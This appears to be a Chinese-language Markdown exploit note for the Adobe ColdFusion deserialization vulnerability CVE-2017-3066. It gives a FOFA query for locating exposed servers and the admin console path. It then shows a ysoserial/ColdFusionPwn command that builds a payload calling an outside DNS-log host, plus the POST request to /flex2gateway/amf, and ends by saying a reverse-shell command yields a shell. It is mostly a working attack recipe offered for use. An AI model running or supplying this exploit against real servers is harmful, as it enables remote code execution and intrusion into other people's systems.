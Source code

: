 # Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）
## 资产搜索
fofa app="Adobe-ColdFusion"
## 特征
控制台地址：`/CFIDE/administrator/index.cfm`  
![](img/tz.png)  
## POC
使用[工具](file/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)生成poc：  
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'nslookup xx.dnslog' poc.ser`  
POC作为数据包body发送给`http://your-ip/flex2gateway/amf`，Content-Type设置为application/x-amf：  
```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```   
![](img/poc.png)  
讲poc换成反弹shell的命令，即可获取shell